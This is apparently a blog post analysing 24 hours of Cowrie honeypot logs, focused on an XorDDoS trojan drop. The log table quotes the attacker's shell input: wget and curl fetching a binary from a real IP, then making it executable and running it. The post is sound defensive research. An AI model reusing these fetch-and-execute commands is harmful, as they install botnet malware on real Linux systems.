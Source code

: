 ```yaml
---
layout: post
title:  "Analysing Honeypots Running In T-PoT Part 03"
date:   2020-04-19 16:58:32 +0200
categories: alecsahew github.io Cowrie T-Pot Honeypot Analysis
---
```


### What We Can Learn From 24 Hours Attack in COVID-19 Times.  Analysing Cowrie

#### Attacker's Malware Dropped: XorDDoS 

XOR DDoS are Denial of Service Attacks. 
XOR DDoS is a Trojan malware that infects Linux systems.
Attackers build botnets using compromised Linux systems to launch DDoS attacks.

#### THE INPUT FROM ASN : GorillaServers, Inc. Los Angeles	

##### Attackers gain access by brute force attacks to discover the password to Secure Shell services on a Linux machine
##### Once login has been acquired, the attackers use root privileges to run a Bash shell script that downloads and executes the binary

|COWRIE                           |INPUT                               
|:--------------------------------|:-------------------------------------------------------------------------------------------------|
|cowrie.session.connect|New connection: 98.159.110.2:46509 (192.168.96.2:22) [session: 864d91ae1ed0]|
|cowrie.client.version|Remote SSH version: b'SSH-2.0-PUTTY'|
|cowrie.client.kex|SSH client hassh fingerprint: 92674389fa1e47a27ddd8d9b63ecd42b|
|cowrie.login.success||
|cowrie.session.params||
|cowrie.login.input |#!/bin/sh;
|cowrie.login.input |PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin;| 
|cowrie.login.input |wget http://98.159.110.2/3307;|
|cowrie.login.input |curl -O http://98.159.110.2/3307;|
|cowrie.login.input |chmod +x 3307; ./3307;|
|cowrie.session.file_upload|SFTP Uploaded file "eyshcjdmzg" to dl/1a0aa7fcea196af6d24df531da131833b4b13b3e629e15d1b346062d7ec259e6|
|cowrie.session.params||
|cowrie.command.input|	CMD: /bin/eyshcjdmzg|
|cowrie.command.failed|Command not found: /bin/eyshcjdmzg|
|cowrie.log.closed|Closing TTY Log: log/tty/27bfa685b0774a88946b7b3f3d0f6291bcc8e0ae37769309a8d086593862c0d0 after 10 seconds|
|cowrie.session.params||
|cowrie.command.input|CMD: ls -la /var/run/gcc.pid|
|cowrie.log.closed|Closing TTY Log: log/tty/e9ca076a73c58dc3b053e9f3e0249b13f1c1b47d23846405096e8c10dc3f7d26 after 0 seconds|

#### Statics Analysis With Internet Tools 

* [Virus Total][xorddos01-lnk]                                                                                       
* [AbuseIP DB][xorddos02-lnk]                                                                                   

#### Statics Analysis With Other Tools 

* Basic Linux commands: file, strings, readelf     
* [Ghydra  A software reverse engineering (SRE)][xorddos03-lnk]  
                    
#### Dynamic Analysis

* [joesandbox.com/analysis][xorddos06-lnk]

#### Other Analysis Of XorDDoS

* [XOR DDoS Botnet Launching 20 Attacks a Day From Compromised Linux Machines, Says Akamai][xorddos04-lnk]             
* [MMD-0028-2014 - Linux/XOR.DDoS : Fuzzy reversing a new China ELF][xorddos05-lnk]                  


[xorddos01-lnk]:https://www.virustotal.com/gui/file/1a0aa7fcea196af6d24df531da131833b4b13b3e629e15d1b346062d7ec259e6/detection
[xorddos02-lnk]:https://www.abuseipdb.com/check/98.159.110.2
[xorddos03-lnk]:https://ghidra-sre.org/
[xorddos04-lnk]:https://www.akamai.com/us/en/about/news/press/2015-press/xor-ddos-botnet-attacking-linux-machines.jsp
[xorddos05-lnk]:https://blog.malwaremustdie.org/2014/09/mmd-0028-2014-fuzzy-reversing-new-china.html
[xorddos06-lnk]:https://www.joesandbox.com/analysis/216148/0/html



